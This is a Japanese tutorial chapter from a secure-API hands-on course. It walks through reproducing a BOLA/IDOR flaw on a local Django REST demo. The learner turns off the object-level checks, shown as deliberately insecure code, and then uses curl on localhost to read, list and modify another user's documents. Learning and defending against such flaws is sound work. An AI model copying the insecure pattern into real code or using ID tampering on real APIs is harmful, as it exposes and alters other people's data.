

# Chapter 05: BOLA / IDOR を再現する

## この章の目的

認証も RBAC も正しく通っている API で、URL の ID を書き換えるだけで他人のデータを取得する。このハンズオンの中心となる章。

## 現在地

Setup → Authentication → **Authorization** → Hardening → Verification → Review

## 完了条件

- [ ] alice の Token で bob の Document を `200` で取得できた
- [ ] 一覧APIで全ユーザーのデータが返ってきた
- [ ] この状態でも認証・RBAC は正しく動いていることを説明できる

---

## BOLA / IDOR とは

**BOLA（Broken Object Level Authorization）** は、リクエストが指すデータ1件について「この利用者が触ってよいか」を確認していない状態を指す。ID を差し替えるだけで攻撃できるため、**IDOR（Insecure Direct Object Reference）** とも呼ばれる。

OWASP API Security Top 10 で長く1位に置かれている。原因が「実装ミス」ではなく「チェックを書き忘れても正常に動いてしまう」ことにあるため、テストをすり抜けやすい。



認証は成功している。RBAC も成功している。落ちているのは最後の1つだけ。

---

## この章で外す防御

修正版には2層の防御が入っている。この章では両方を外す。

| 層 | 実装箇所 | 役割 |
|---|---|---|
| QuerySet のスコープ | `get_queryset()` | そもそも他人のデータを取得対象に含めない |
| Object Permission | `has_object_permission()` | 1件取得したあとに所有者を照合する |

```bash
cd secure-api-hands-on
sed -i 's|^INSECURE_OBJECT_ACCESS=.*|INSECURE_OBJECT_ACCESS=1|; s|^INSECURE_OBJECT_PERMISSION=.*|INSECURE_OBJECT_PERMISSION=1|' .env
docker compose up -d api
docker compose exec api uv run python manage.py seed_demo
```

この2つのフラグが有効になると、コードは実質こうなる。

```python
# documents/views.py （INSECURE_OBJECT_ACCESS=1 のとき）
def get_queryset(self):
    return Document.objects.all()      # 誰のリクエストでも全件

# documents/permissions.py （INSECURE_OBJECT_PERMISSION=1 のとき）
def has_object_permission(self, request, view, obj):
    return True                        # 所有者を見ない
```

`Document.objects.all()` は、意図して書く脆弱性ではない。**認可を意識せずに書いたときの自然な形**がこれになる。

---

## Step 1. alice としてログインする

### やること

正規の手順で Token を取得する。攻撃者は盗んだ Token ではなく、自分の正当なアカウントを使う。

### 実行

```bash
ALICE=$(curl -s -X POST http://localhost:8000/api/auth/token/ \
  -H "Content-Type: application/json" \
  -d '{"username":"alice","password":"Handson-Passw0rd!"}' \
  | python -c "import sys,json;print(json.load(sys.stdin)['access'])")

curl -s http://localhost:8000/api/auth/me/ -H "Authorization: Bearer ${ALICE}"
```

### 期待結果

```json
{"id":1,"username":"alice","role":"user"}
```

alice は管理者ではない、ごく普通の利用者として認識されている。

---

## Step 2. 自分のデータを取得する

### やること

正常な操作を先に確認しておく。

### 実行

```bash
curl -s http://localhost:8000/api/documents/1/ -H "Authorization: Bearer ${ALICE}"
```

### 期待結果

```json
{"id":1,"title":"Alice Private Note","content":"alice しか読めないはずの内容","owner":1,"created_at":"2026-09-16T06:20:35.410365Z"}
```

`owner: 1` = alice 自身。ここまでは問題ない。

---

## Step 3. ID を 1 から 2 に書き換える

### やること

URL の数字を1つ変えるだけ。ヘッダも本文も何も変えない。

### 実行

```bash
curl -s http://localhost:8000/api/documents/2/ \
  -H "Authorization: Bearer ${ALICE}" -w "\nstatus=%{http_code}\n"
```

### 期待結果

```json
{"id":2,"title":"Bob Private Note","content":"bob しか読めないはずの内容","owner":2,"created_at":"2026-09-16T06:20:35.410982Z"}
```

```text
status=200
```

> [!CAUTION]
> `owner: 2` = bob のデータが、alice の Token で `200` で返っている。これが BOLA。

サーバー側から見ると、このリクエストは**何ひとつ異常ではない**。有効な Token があり、許可された HTTP メソッドで、存在する URL を叩いている。ログにも `200` としか残らない。

---

## Step 4. 一覧APIでまとめて取得する

### やること

1件ずつ ID を試す必要すらないことを確認する。

### 実行

```bash
curl -s http://localhost:8000/api/documents/ -H "Authorization: Bearer ${ALICE}" \
  | python -c "import sys,json;[print(f\"id={d['id']} owner={d['owner']} title={d['title']}\") for d in json.load(sys.stdin)]"
```

### 期待結果

```text
id=1 owner=1 title=Alice Private Note
id=2 owner=2 title=Bob Private Note
```

一覧エンドポイントは、他人のデータを1回のリクエストで全部返す。

### なぜ行うのか

BOLA の議論は詳細取得（`/documents/{id}/`）に集中しがちだが、被害が大きいのは一覧側になる。**一覧では `has_object_permission` が呼ばれない**（DRF は1件を特定したときだけ呼ぶ）ため、Object Permission を書いただけでは一覧の漏洩は止まらない。この点は Chapter 06 で数字を出して確認する。

---

## Step 5. 更新もできてしまうことを確認する

### やること

読めるだけでなく、書き換えもできることを見る。

### 実行

```bash
curl -s -X PATCH http://localhost:8000/api/documents/2/ \
  -H "Authorization: Bearer ${ALICE}" \
  -H "Content-Type: application/json" \
  -d '{"title":"hijacked by alice"}' -w "\nstatus=%{http_code}\n"
```

### 期待結果

```json
{"id":2,"title":"hijacked by alice","content":"bob しか読めないはずの内容","owner":2,"created_at":"..."}
```

```text
status=200
```

bob のデータのタイトルが、alice によって書き換えられた。

---

## なぜこれが起きるのか

JWT が答えているのは1つの問いだけ。

```text
JWT が答える問い      : このリクエストは誰のものか        → alice
JWT が答えない問い    : alice は Document 2 に触れてよいか → 誰も判定していない
```

「認証済みユーザーのみ」という Permission は、**全認証済みユーザーを等しく信頼する**という意味になる。利用者が2人以上いるシステムでは、それは何も制限していないのと同じことが多い。

---

## 後始末

このあとの章は防御が有効な状態を前提にする。フラグを戻し、書き換えたデータも復元する。

```bash
sed -i 's|^INSECURE_OBJECT_ACCESS=.*|INSECURE_OBJECT_ACCESS=0|; s|^INSECURE_OBJECT_PERMISSION=.*|INSECURE_OBJECT_PERMISSION=0|' .env
docker compose up -d api
docker compose exec api uv run python manage.py seed_demo
```

---

## この章で確認したこと

| 操作（alice の Token） | ステータス | 結果 |
|---|---|---|
| GET /api/documents/1/（自分） | `200` | 正常 |
| GET /api/documents/2/（他人） | `200` | **漏洩** |
| GET /api/documents/（一覧） | `200` | **全ユーザー分が返る** |
| PATCH /api/documents/2/（他人） | `200` | **改ざん成功** |

---

## 次の章

[Chapter 06: Object-Level Authorization](./chapter06-object-authz.md) で、この4つの結果を反転させる。
